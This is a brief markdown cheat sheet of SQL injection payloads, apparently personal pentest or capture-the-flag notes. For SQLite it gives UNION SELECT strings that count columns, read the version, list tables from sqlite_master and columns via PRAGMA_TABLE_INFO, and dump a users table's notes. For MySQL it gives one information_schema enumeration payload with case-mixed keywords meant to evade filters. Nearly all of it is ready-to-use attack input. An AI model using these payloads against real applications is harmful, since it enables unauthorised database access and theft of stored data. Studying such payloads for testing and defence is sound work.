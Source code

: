 # sqli

## SQLITE

`' order by #` =&gt; to get the number of columns

`' union select (select sqlite_version()),NULL,NULL,NULL--` =&gt; to get the sqlite version

`' union select (select group_concat(name) from sqlite_master where type='table'),NULL,NULL,NULL--` =&gt; to get table names

`' union select (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('users')),NULL,NULL,NULL--` =&gt; to get column names in a table called users

`' union select (SELECT group_concat(notes) FROM 'users'),NULL,NULL,NULL--` =&gt; to get data from notes column in users table

## MySQL

we can extract most stuff here using information\_schema

for version =&gt; @@VERSION =&gt; union select \(@@VERSION\)

search=adm'+union+select+1,1,1,1,1,\(gRoUp\_cOncaT\(0x7c,schema\_name,0x7c\)\)+from+information\_schema.schemata+--+-

